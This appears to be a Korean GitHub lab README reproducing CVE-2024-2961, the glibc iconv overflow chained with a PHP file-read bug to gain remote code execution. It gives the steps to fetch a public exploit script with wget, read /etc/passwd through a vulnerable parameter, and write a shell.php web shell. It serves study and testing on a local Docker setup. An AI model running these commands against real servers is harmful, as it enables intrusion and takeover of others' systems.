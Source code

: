 # 📌 CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv) 🛡️
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.  
  
<br>

## 📚 Table of Contents
- [취약점 개요 (Vulnerability Overview) 🛡️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EA%B0%9C%EC%9A%94-vulnearability-overview)
- [취약점 영향 (Impact) ⚠️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%98%81%ED%96%A5-impact)
- [취약한 환경 설정 (Vulnerable Environment) ⚙️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%ED%95%9C-%ED%99%98%EA%B2%BD-%EC%84%A4%EC%A0%95-vulnerable-environment)
- [취약점 악용 (Exploit) 👾](#-취약점-악용-exploit)
- [PoC 코드 개요 (PoC Summary) 💻](#-poc-%EC%BD%94%EB%93%9C-%EA%B0%9C%EC%9A%94poc-summary)
- [취약점 악용 흐름도 (Exploit Flow Diagram) ⏳](#-취약점-악용-흐름도-exploit-flow-diagram)

<br>

## 🛡️ 취약점 개요 (Vulnearability Overview)
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

**참고문헌:**
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

<br>

## ⚠️ 취약점 영향 (Impact)
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

<br>

## ⚙️ 취약한 환경 설정 (Vulnerable Environment)
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

<br>

## 👾 취약점 악용 (Exploit)
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   ![image](image1.png)
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   ![image](image2.png)
   위와 같이 `shell.php`가 잘 실행된다.

<br>

## 💻 PoC 코드 개요(PoC Summary)
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.

<br>

## ⏳ 취약점 악용 흐름도 (Exploit Flow Diagram)
```text
1. 환경 구성(PHP 8.34 + iconv 2.36)
2. /etc/passwd 파일 읽기 확인
3. PoC 스크립트 실행 (cnext-exploit.py)
4. shell.php 파일 생성
5. shell.php 접속 및 명령어 실행
6. 원격 코드 실행(RCE) 성공
```
